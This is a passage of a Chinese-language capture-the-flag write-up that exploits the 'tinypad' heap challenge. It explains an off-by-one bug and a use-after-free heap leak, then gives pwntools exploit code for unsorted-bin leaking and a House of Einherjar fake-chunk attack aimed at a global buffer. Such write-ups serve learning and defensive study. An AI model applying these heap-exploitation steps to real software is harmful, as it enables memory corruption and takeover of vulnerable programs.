 ```python
p.sendline(payload)
p.recvall()
p.close()
```
**前**

![result03](03.png)

----
**后**

![result04](04.png)
```
unsorted bin @ 0x7fb86398eb88
	free chunk @ 0x17ff010 - size 0x320
```
&nbsp;&nbsp;&nbsp;&nbsp;**结论:** 通过修改对应的`size`, 我们几乎可以实现任意地址读写. 这个利用脚本将`unsorted bin`中的`fd`, `bk`指向我们`fake chunk`所在地址.

### 漏洞分析

**1.Off By One**

![result05](./05.png)

**2. 逻辑漏洞**

![](./06.png)

**结论:**　可以显示释放后的地址的内容, 泄露堆地址.

### 过程
**1. 泄露**
原理: 利用`unsorted bin`中的空闲块是双链表的特性.
```
add(0x80, "A"*0x80)
add(0x80, "B"*0x80)
add(0x80, "C"*0x80)
add(0x80, "D"*0x80)
delete(3)
delete(1)
```
![](./07.png)

**2.House Of Einherjar**
```
add(0x18, "A"*0x18)
add(0x100, "B"*0xf8 + p64(0x11))
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)

tinypad = 0x602040
offset = heap + 0x20 - 0x602040 - 0x20
fake_chunk = p64(0) + p64(0x101) + p64(0x602060) * 2

edit(3, "D"*0x20 + fake_chunk)
zero_byte_number = 8 - len(p64(offset).strip("\x00"))
'''
循环edit的原因是stcpy()会因为空子节而停止copy, 但每次读取都会将最后一个字节变为NULL, 这样就可以用NULL逐一覆盖, 使2号chunk的prev_size为offset
'''
for i in range(zero_byte_number+1):
  data = "A"*0x10 + p64(offset).strip("\x00").rjust(8-i, 'f')
  edit(1, data)
delete(2)
```